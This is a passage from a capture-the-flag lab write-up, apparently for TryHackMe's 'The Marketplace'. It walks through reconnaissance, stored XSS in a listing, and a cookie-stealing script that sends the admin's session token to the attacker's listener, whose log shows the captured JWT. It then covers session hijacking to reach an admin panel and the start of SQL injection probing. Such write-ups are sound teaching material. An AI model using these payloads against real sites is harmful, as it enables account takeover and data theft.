 # The Marketplace
## Difficulty: Medium

Let's start with nmap scan:
```bash
nmap -sV -sC 10.10.3.15 | tee nmap/start
```

The results:
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c83cc56265eb7f5d9224e93b11b523b9 (RSA)
|   256 06b799940b091439e17fbfc75f99d39f (ECDSA)
|_  256 0a75bea260c62b8adf4f457161ab60b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The SSH version is high enough to not be vulnerable, so I'll start with the http service.

In the scan it also found that in the robots.txt directory there is an "/admin" directory.

![image](https://user-images.githubusercontent.com/114166939/232095399-3b9e8fbb-7b3c-458f-8a36-1401c960d4cb.png)

It's forbidden:

![image](https://user-images.githubusercontent.com/114166939/232095591-266d7b01-2bd2-40a0-a63f-16d0f62c2655.png)

I'll sign up with a test account:

username = test
password = test

![image](https://user-images.githubusercontent.com/114166939/232096934-f68dfe06-c1d5-490a-b58b-ab601e0f38af.png)

Success!

Now let's login to this user:
Success!

![image](https://user-images.githubusercontent.com/114166939/232097504-f3174c72-dcdc-46f5-b534-c4b3c167054a.png)

Also noticed I have cookie now - using the cookie manager firefox extension.

![image](https://user-images.githubusercontent.com/114166939/232098050-972050bf-9921-4b3d-b38a-9164f17e2832.png)

By using CyberChef (from "https://gchq.github.io/CyberChef/") I can understand what type of encode this server use and what is the data stored in the cookie.

![image](https://user-images.githubusercontent.com/114166939/232099019-3d27ee92-fea8-4aaa-9126-7386e1e678bc.png)

```
{
    "userId": 4,
    "username": "test",
    "admin": false,
    "iat": 1681488332
}
```

So the server probably identify the users by "userId" and "username" parameters.

This information will be important in the near future!
Let's move on to the New listing ("http://10.10.171.31/new") page:

![image](https://user-images.githubusercontent.com/114166939/232100022-ae881109-485a-4a4f-8020-d827fb8569c4.png)

I'll try exploit this page with xss payloads,
For beginning I'll try the simplest exploit in the title input:
```html
<script>alert(1)</script>
```
Didn't work:

![image](https://user-images.githubusercontent.com/114166939/232100940-7a66c85d-2dbd-4908-b04c-aad6c5327ceb.png)

Let's try in the description input:

![image](https://user-images.githubusercontent.com/114166939/232101091-70b6a894-ece1-420a-a82d-63718944d837.png)

It works!

![image](https://user-images.githubusercontent.com/114166939/232101158-1cf33e18-0bbb-4ecc-bc20-45d2601fb543.png)

Also when I'm going to the home page and clicking on this listing the alert pops out.
It is a reflected and stored xss!

The 2 options for this listing are: "Contact the listing author" and 
"Report listing to admins" - when I report the listing the following message appear:

![image](https://user-images.githubusercontent.com/114166939/232110868-dbbdf845-0b1e-4333-834b-67b03616991e.png)

Which means that after I reported the listing an admin opened it!
If that's the case I can try steal the admin's cookie.

I'll use a code from this github page "https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md":
(The Silent One-Liner)
```html
<script>var i=new Image;i.src="http://[IP]:[PORT]/?"+document.cookie;</script>
```
It need to be modified as my tun0 IP and port.

Before add the listing, I'll establish python3 server on my attacker machine:
```bash
python3 -m http.server
```
Now I'll add the exploit:

![image](https://user-images.githubusercontent.com/114166939/232113668-933bb211-5ef9-4292-883c-694e716b164e.png)

Report this listing:

![image](https://user-images.githubusercontent.com/114166939/232113844-a5f8b17e-37d0-486d-bd42-e5f3e1ef06e2.png)

Refresh and let's take a look at my python3 server!

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

10.14.50.11 - - [14/Apr/2023 13:20:31] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjgxNDg4MzMyfQ.LOu-eEsb_vaK-pZ8xZjVHvaVNuFRjRzyq3yAps2tAnY HTTP/1.1" 200 -

10.10.171.31 - - [14/Apr/2023 13:21:26] "GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2ODE0OTI4ODd9.YI1C9_Iu632z1-0xDX1jm0DUeFwiGgqiDR1joEGcKzw HTTP/1.1" 200 -
```

The first one is my current user cookie, the same one as I checked in my cookie manager extension.

The second request I got have different cookie!
Probably the admin's user cookie, I'll check it in CyberChef:

![image](https://user-images.githubusercontent.com/114166939/232114890-be430831-c00a-4d33-a986-4fdc666f62ee.png)

It's michael's cookie.

Now I can change the current user cookie with michael's user cookie - I'll do it with cookie manager:

Copy the token from the request, delete the current cookie, paste michael's cookie and save.

![image](https://user-images.githubusercontent.com/114166939/232116054-9115e1c8-2f66-41e3-af69-4716606596f0.png)


Refresh on the home page:

![image](https://user-images.githubusercontent.com/114166939/232116191-be8c47ea-9607-4b36-a73f-d35913a8fb9e.png)

There is a new option in the website, "Administration panel", it redirect to the "/admin" directory.

Got the first flag:

![image](https://user-images.githubusercontent.com/114166939/232116820-b3ed3d55-4cfd-415c-b758-86d5308e4c77.png)

Now let's click on the system user:

![image](https://user-images.githubusercontent.com/114166939/232117026-e9513b4c-5bad-4362-85f8-a80c7f2c56c1.png)

This page use GET method and it and maybe it's vulnerable to sqli in the "user" parameter - "http://10.10.171.31/admin?user=1".

The easiest way to test the url is to add ' and check its response:
```url
http://10.10.171.31/admin?user=1'
```

![image](https://user-images.githubusercontent.com/114166939/232117835-abc95af0-4082-4703-929a-afa263519e99.png)

It's probably vulnerable, also it written that this website use MySQL server!

Let's try find out how much columns are in the tables of this DataBase with SQL injection to the url:
```url
http://10.10.171.31/admin?user=1 order by 1-- -
```

It responded the same, than I'll increase the column numbers until the website will response differently:
